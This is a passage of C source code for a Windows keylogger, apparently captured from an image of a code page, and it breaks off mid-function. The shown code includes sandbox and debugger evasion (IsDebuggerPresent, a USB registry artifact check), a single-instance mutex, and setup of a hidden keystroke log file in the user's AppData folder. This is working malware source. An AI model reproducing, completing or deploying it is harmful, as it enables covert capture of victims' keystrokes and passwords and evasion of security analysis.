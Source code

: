 	// check debugger
	if (IsDebuggerPresent() == TRUE) {
		return FALSE;
	}

	// check for USB artifact
	HKEY hKey;

	// open key
	RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Enum\\USBSTOR", 0, KEY_QUERY_VALUE, &hKey);
	if (hKey == NULL) {
		Fatal("Open registry key");
	}

	DWORD dwNumberOfKeys = 0;
	// check USB artifacts
	if (RegQueryInfoKey(hKey, NULL, NULL, NULL, &dwNumberOfKeys, NULL, NULL, NULL, NULL, NULL, NULL, NULL) != ERROR_SUCCESS) {
		Fatal("Query registry info key");
	}

	// if no USBs came in contact with system, abort
	if (dwNumberOfKeys == 0) {
		return FALSE;
	}

	return TRUE;	
}
#endif

// main function
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
#ifdef CHECK_ENV
	// check debugging
	if (CheckEnvironment() == FALSE) {
		return 0;
	}
#endif

	// mutex to prevent other keylog instances
	ghMutex = CreateMutex(NULL, TRUE, NAME);
	if (ghMutex == NULL) {
		Fatal("Create mutex");
	}
	if (GetLastError() == ERROR_ALREADY_EXISTS) {
		ExitProcess(1);
	}

	// declare handle cleaner on exit
	atexit(CleanUp);

	// set key file in C:\%username%\AppData\Roaming\Enki\keylog.txt
	HRESULT hRes = SHGetFolderPath(NULL, CSIDL_APPDATA, NULL, 0, LogFilePath);
	if (hRes != S_OK) {
		Fatal("Set key file");
	}
	strncat(LogFilePath, "\\", strlen("\\"));
	strncat(LogFilePath, NAME, strlen(NAME));

	CreateDirectory(LogFilePath, NULL);

	strncat(LogFilePath, KEY_FILE, strlen(KEY_FILE));

	// create/open existing keylog file
	// no sharing so that no other processes can access the file
	// while the keylogger program is still running
	ghFile = CreateFile(LogFilePath, GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (ghFile == NULL) {